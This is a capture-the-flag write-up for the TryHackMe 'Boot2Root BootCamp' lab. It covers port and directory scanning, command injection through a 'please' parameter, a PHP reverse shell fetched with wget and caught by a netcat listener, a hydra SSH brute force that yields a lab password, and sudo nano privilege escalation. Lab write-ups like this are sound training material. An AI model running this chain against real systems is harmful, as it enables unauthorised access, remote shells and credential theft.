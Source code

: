 ## Boot2Root BootCamp [THM]



Link: https://tryhackme.com/room/boot2rootbootcamp

Goal: user.txt and root.txt

## nmap
```
nmap -sC -sV 10.10.0.138 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:21 EDT
Nmap scan report for 10.10.0.138
Host is up (0.24s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:e3:e7:8d:9b:87:30:20:54:1a:e7:f8:13:67:20:ca (RSA)
|   256 6d:e0:a0:84:28:52:cc:9f:52:90:56:90:d4:68:fb:33 (ECDSA)
|_  256 07:ee:49:b0:03:ca:4f:a4:bd:ae:ae:0d:80:36:8e:ac (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/th15_1mp0551bl3_t0_f1nd/
|_http-title: Hello There!
1152/tcp  filtered winpoplanmess
2725/tcp  filtered msolap-ptp2
3370/tcp  filtered satvid-datalnk
6667/tcp  filtered irc
7000/tcp  filtered afs3-fileserver
16016/tcp filtered unknown
19801/tcp filtered unknown
25734/tcp filtered unknown
27355/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.19 seconds
```
- port 22 open
- port 80 open

## view web [port 80]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/a9305310-0b93-4910-82b4-cde266bd1bc4)

## dirsearch

```
dirsearch -u 10.10.0.138 
                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/

[10:33:37] Starting:                                            
[10:34:35] 200 -  938B  - /images/                                                 
[10:34:36] 200 -  535B  - /index.html                                       
[10:34:54] 200 -   50B  - /robots.txt                                       
                                                                             
Task Completed
```
- /robots.txt

## robots.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/da0afcd7-0136-4c29-a022-2b3fd404a49b)

- found directory /th15_1mp0551bl3_t0_f1nd/

## dirsearch /th15_1mp0551bl3_t0_f1nd/

```
dirsearch -u 10.10.0.138/th15_1mp0551bl3_t0_f1nd/
                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/

[10:39:10] Starting:                   
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php                
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php/login/         
                                                                            
Task Completed 
```

- /th15_1mp0551bl3_t0_f1nd/index.php

## index.php

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/cfe24485-2750-49dc-aa76-f5513722915a)

- the bold "please" maybe a hint for this page

## exploit using parameter please [basic RCE]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/c954b127-5ed3-4492-bc76-baa7790e0848)

- payload `index.php?please=whoami`

## upload reverse shell using wget

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b4aaad46-51fa-438a-83a1-b7cfcfd51cbb)

- create php reverse shell, open python web server `python3 -m http.server <port>` to transfer from local to server

## setup netcat listener

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/caeae79e-b4e0-4244-9905-b3616c7e19a5)

- goto `http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/rev.php` dont forget to open listener `nc -lnvp 1337` on terminal
- `python3 -c 'import pty;pty.spawn("/bin/bash")'` to upgrade shell
- `export TERM=xterm` enable clear

## cd /home/human

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/87a0bdbe-4a58-4d8d-b548-36ccc42c9834)

- user.txt
- password_list.txt

## user.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/97c1876b-a001-405c-97a2-6701a32042a9)

## download password_list.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/fd7f31df-c871-4759-b906-31a07e1a3374)

- same process with upload reverse shell, but this from server to local

## hydra [bruteforce ssh password]

```
hydra -l human -P password_list.txt 10.10.0.138 ssh -t 4 -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 4 tasks per 1 server, overall 4 tasks, 38 login tries (l:1/p:38), ~10 tries per task
[DATA] attacking ssh://10.10.0.138:22/
[22][ssh] host: 10.10.0.138   login: human   password: cuteyadmin
```

- found Username: human, Password: cuteyadmin

## connect ssh [port 22]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b8a0decb-0bce-44dd-bdb4-037f35a8eccc)

- using credentials found from hydra

## privilege escalation

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/59816c82-2995-42dc-b98c-b167107c4d41)

- using `sudo -l`

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/aa909129-ee16-46b3-8671-329476d6bd24)

- Search GTFObins for [nano](https://gtfobins.github.io/gtfobins/nano/)

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b55b6c18-f050-4a7d-afc8-fe84e7c44296)

- root!

## root.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/45361027-e1fa-4e3e-8cc2-c946f667555f)

- PWNED! :star:
